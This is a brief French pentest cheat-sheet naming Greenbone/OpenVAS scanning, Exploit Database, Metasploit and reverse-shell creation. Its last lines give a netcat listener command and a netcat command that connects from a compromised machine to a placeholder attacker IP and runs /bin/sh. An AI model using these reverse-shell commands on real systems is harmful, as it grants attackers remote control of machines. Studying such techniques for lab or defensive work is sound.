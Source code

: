 ```toc

```

# Scan de vuln
Utilisation de Greenbone (anciennement OpenVas) pour faire un scan sur les vulnérabilités connues.


# Exploitation
Recherche manuelle d'exploit disponibles sur internet, notamment dans la base *exploit database*.

Utilisation de metasploit

Création d'un reverse shell :
1. Ecoute sur le pc de l'attaquant : `nc -nlvp 4444`
2. Connexion depuis la machine compromise : `nc <ip_attaquant> <por> -e /bin/sh`



